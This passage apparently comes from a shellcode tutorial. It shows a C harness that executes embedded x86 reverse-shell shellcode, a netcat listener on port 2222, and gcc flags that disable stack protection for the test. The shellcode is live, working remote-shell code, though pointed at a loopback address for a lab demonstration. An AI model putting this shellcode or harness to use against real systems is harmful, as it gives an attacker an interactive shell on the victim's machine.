 In order to test it, we can now used this return and add it to a C program which will execute our shellcode

The C program source code (this code can be found at root directory named 'test_shellcode.c')
```c
#include <stdio.h>
#include <string.h>

// reverse_shell.nasm shellcode is stored here
unsigned char code[] = \
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x68\x7F\x00\x00\x07\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x31\xc0\x66\xb8\x6a\x01\x89\xf3\x89\xe1\x89\xef\x29\xe7\x89\xfa\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

main()
{
        // print the length of the shellcode
        printf("Shellcode Length:  %d\n", strlen(code));
        // convert shellcode to a function
        int (*ret)() = (int(*)())code;
        // execute the shellcode has a function
        ret();

}
```

We will use netcat to open a port on localhost:
```console
nc -lvnp 2222
```

On another terminal, we will compile it and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
#./test_shellcode 
Shellcode Length:  14
```

